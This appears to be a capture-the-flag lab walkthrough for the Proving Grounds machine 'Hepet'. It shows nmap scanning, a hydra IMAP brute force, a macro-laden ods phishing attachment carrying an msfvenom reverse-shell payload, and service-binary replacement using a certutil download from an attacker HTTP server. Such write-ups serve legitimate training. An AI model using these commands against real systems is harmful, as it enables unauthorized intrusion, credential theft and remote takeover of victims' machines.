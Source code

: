 #### Walkthrough

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Walkthrough.png)

#### Enumeration

```
nmap -Pn -p- -sV 192.168.239.140 -T4 -oN Hepet.nmap
```

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-16 11:19 EDT
Nmap scan report for 192.168.239.140
Host is up (0.21s latency).
Not shown: 65522 filtered ports
PORT      STATE SERVICE        VERSION
25/tcp    open  smtp           Mercury/32 smtpd (Mail server account Maiser)
79/tcp    open  finger         Mercury/32 fingerd
105/tcp   open  ph-addressbook Mercury/32 PH addressbook server
106/tcp   open  pop3pw         Mercury/32 poppass service
110/tcp   open  pop3           Mercury/32 pop3d
143/tcp   open  imap           Mercury/32 imapd 4.62
443/tcp   open  ssl/http       Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
2224/tcp  open  http           Mercury/32 httpd
7680/tcp  open  pando-pub?
8000/tcp  open  http           Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
11100/tcp open  vnc            VNC (protocol 3.8)
20001/tcp open  ftp            FileZilla ftpd 0.9.41 beta
33006/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33006-TCP:V=7.91%I=7%D=8/16%Time=611A82E9%P=x86_64-pc-linux-gnu%r(N
SF:ULL,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.239'\x20is\x20not\x20a
SF:llowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(RPCCheck
SF:,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.239'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(LANDesk-RC,
SF:4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.239'\x20is\x20not\x20allow
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(afp,4D,"I\0\
SF:0\x01\xffj\x04Host\x20'192\.168\.49\.239'\x20is\x20not\x20allowed\x20to
SF:\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Host: localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 294.07 seconds
```

All the http services don't seem to have vulnerabilities. Trying to use brute-force attatcks to find the useful information. The rockyou.txt wordlist
is not working so I generate wordlists from https website.

```
cewl -d 4 https://192.168.247.140 -w ~/Documents/OffSecPG/Hepet/wordlists.txt
```

Using [finger-user-enum.pl](https://github.com/pentestmonkey/finger-user-enum) to enumerate users.

```
perl finger-user-enum.pl -U /usr/share/wordlists/names.txt -t 192.168.220.140 > finger_enum_log.txt
```

Finding existing users: Agnes, admin, Jonas, Magnus, Martha, Charlotte. The website also shows employees' information.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.27_00h40m35s_002_.png)
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.27_00h41m04s_003_.png)

Only the IMAP service found is suitable for enumeration. Other services will block brute-force attacks.

```
hydra -l jonas -P ~/Documents/OffSecPG/Hepet/wordlists.txt 192.168.247.140 -s 143 imap
```

Getting a vaild passowd successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.25_23h51m41s_001_.png)

Logging in to pop3 service and read the email. The letter mentioned that their computers were installed with office software. The concept is sending an office file contain a malicious macro. (I am stuck here. Referring to offical walkthroughs below.)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.26_00h27m32s_003_.png)

Creating a hta payload. We need to extract the command from it.

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.220 LPORT=80 -f hta-psh -o tmp.hta
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_01h32m52s_001_.png)

Because VBA's literal string can only contain a maximum of 255 characters while a variable can hold more, we need to separate the command string when modifying the code. Afterwards, we can create an `ods` file and add the macro to it.

(Installing LibreOffice ```sudo apt-get install libreoffice```)

Opening a empty calc and save as a ods file.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_15h32m11s_001_.png)

Adding a new marco.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_18h15m17s_016_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_18h16m25s_017_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_18h17m25s_018_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_18h18m45s_019_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_18h21m09s_020_.png)

We set marco to execute when the ods file is opened.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_18h21m53s_021_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_18h22m38s_022_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_18h23m11s_023_.png)

Sending ods file and waiting for five minutes.

```
sendemail -f 'jonas@localhost' \                                                          
                       -t 'mailadmin@localhost' \
                       -s 192.168.220.140:25 \
                       -u 'file' \
                       -m 'file' \
                       -a shell.ods
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_19h19m26s_031_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_18h47m17s_024_.png)

#### Escalation

Finding services.

```
wmic service get name,displayname,pathname,startmode | findstr /i "auto"
```

Veyon service is installed in a folder that the user can access.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_18h53m44s_026_.png)

Creating a reverse shell.

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.220 LPORT=443 -f exe -o veyon-service.exe
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_19h27m10s_032_.png)

We active the http server for file transfer.

```
python -m SimpleHTTPServer 8000 
```

The service could not be deleted, so use the move command. After that we download the reverse shell.

```
certutil -f -urlcache http://192.168.49.220:8000//veyon-service.exe veyon-service.exe
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_19h12m12s_029_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_19h12m33s_030_.png)

Starting a new listener and rebooting.

```
shutdown /r
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_19h36m13s_033_.png)

